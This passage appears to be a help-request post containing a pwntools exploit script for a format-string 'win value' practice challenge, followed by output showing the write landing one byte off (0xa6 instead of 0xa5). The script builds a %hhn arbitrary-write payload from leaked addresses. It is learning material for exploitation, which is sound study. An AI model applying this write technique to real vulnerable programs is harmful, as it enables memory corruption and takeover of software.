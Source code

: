 ```python
    match = re.findall(rb"0x[0-9a-fA-F]+", text)
    if match:
        return match
    return None

def build_payload(fmt: bytes, addrs: list[int], padlen: int, filler: bytes = b"|") -> bytes:
    ptrsz = context.bytes
    layout = { padlen: fmt }
    for i, a in enumerate(addrs):
        off = padlen + 16 + i*ptrsz
        layout[off] = p64(a) if ptrsz == 8 else p32(a)
    return fit(layout, filler=filler)



io = start()

#### get win addr ####
leaks = get_win_address_and_value(io.recvuntil(b'offset.'))
desired_val = int(leaks[0], 16)
win_addr    = int(leaks[1], 16)

info(f'Desired Value: {desired_val:#x}')
info(f'Win Address  : {win_addr:#x}')

#### set win value(0x5a) at win_addr ####
offset = 27
padlen = 1

fmt = flat(f'%{desired_val}c%{offset+16//context.bytes}$hhn')
payload = build_payload(fmt, [win_addr], padlen=padlen)

io.sendafter(b'data!\n', payload)

io.interactive()
```

**The failure result:**

```perl
I will now call printf on your data!

|                                                                                                                                                                    C||||pA@
And now, let's check the win value!
Checking win value...
... desired win value: 0xa5
... written win value: 0xa6
... INCORRECT!
### Goodbye!
[*] Got EOF while reading in interactive
```
